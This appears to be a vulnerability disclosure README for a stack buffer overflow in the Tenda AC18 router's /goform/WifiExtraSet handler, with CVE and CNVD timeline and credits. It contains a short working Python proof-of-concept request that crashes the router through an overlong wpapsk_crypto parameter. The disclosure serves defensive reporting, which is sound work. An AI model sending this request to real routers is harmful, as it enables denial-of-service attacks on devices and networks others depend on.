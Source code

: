 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/WifiExtraSet` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `fromSetWirelessRepeat`.

In function `fromSetWirelessRepeat` it reads user provided parameter `wpapsk_crypto` into `victim_buf`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `vuln_buf`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/WifiExtraSet`, the attacker can easily perform a **Deny of Service Attack**.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/WifiExtraSet?"
url += "wl_mode=not_ap&security=wpapsk&wpapsk_key=kkkkkkkk&wpapsk_crypto=" + "s" * 0x600

response = requests.get(url)
```

## Timeline

* 2022-05-07: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30475)
* 2022-05-30: CNVD ID assigned (CNVD-2022-41850)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62), [@Minghao Lin](https://github.com/MinghaoLin2000) and [@cylin](https://github.com/lcyfrank).
